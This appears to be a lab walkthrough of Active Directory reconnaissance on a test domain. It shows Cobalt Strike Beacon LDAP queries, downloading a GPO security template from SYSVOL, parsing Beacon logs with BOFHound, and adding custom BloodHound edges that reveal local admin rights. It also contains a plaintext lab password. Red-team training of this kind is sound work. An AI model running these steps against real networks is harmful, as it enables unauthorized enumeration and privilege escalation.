 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n
```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.
-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2101'}) MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2102'})
MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.